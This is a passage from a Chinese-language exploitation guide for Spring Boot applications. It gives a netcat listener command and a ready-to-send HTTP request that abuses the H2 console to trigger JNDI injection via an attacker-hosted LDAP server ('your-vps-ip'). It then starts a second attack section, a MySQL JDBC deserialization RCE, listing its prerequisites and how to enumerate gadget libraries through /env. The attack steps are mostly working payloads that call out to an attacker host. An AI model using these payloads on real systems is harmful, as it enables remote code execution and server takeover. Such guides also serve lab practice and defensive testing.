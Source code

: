 ```
nc -lv 443

```

##### 步骤六：发包触发 JNDI 注入

根据实际情况，替换下面数据中的 `jsessionid=xxxxxx`、`www.example.com` 和 `ldap://your-vps-ip:1389/JNDIObject`

```
POST /h2-console/login.do?jsessionid=xxxxxx
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Referer: http://www.example.com/h2-console/login.jsp?jsessionid=xxxxxx

language=en&setting=Generic+H2+%28Embedded%29&name=Generic+H2+%28Embedded%29&driver=javax.naming.InitialContext&url=ldap://your-vps-ip:1389/JNDIObject&user=&password=

```

#### 漏洞分析：

 [Spring Boot + H2 数据库 JNDI 注入](https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e&scene=21#wechat_redirect)

#### 漏洞环境：

repository/springboot-h2-database-rce

正常访问：

```
http://127.0.0.1:9096/h2-console


```

### 0x08：mysql jdbc deserialization RCE

#### 利用条件：

*   可以 POST 请求目标网站的 `/env` 接口设置属性
    
*   可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
    
*   目标环境中存在 `mysql-connector-java` 依赖
    
*   目标可以请求攻击者的服务器（请求可出外网）
    

#### 利用方法：

##### 步骤一：查看环境依赖

GET 请求 `/env` 或 `/actuator/env`，搜索环境变量（classpath）中是否有 `mysql-connector-java` 关键词，并记录下其版本号（5.x 或 8.x）；

搜索并观察环境变量中是否存在常见的反序列化 gadget 依赖，比如 `commons-collections`、`Jdk7u21`、`Jdk8u20` 等；
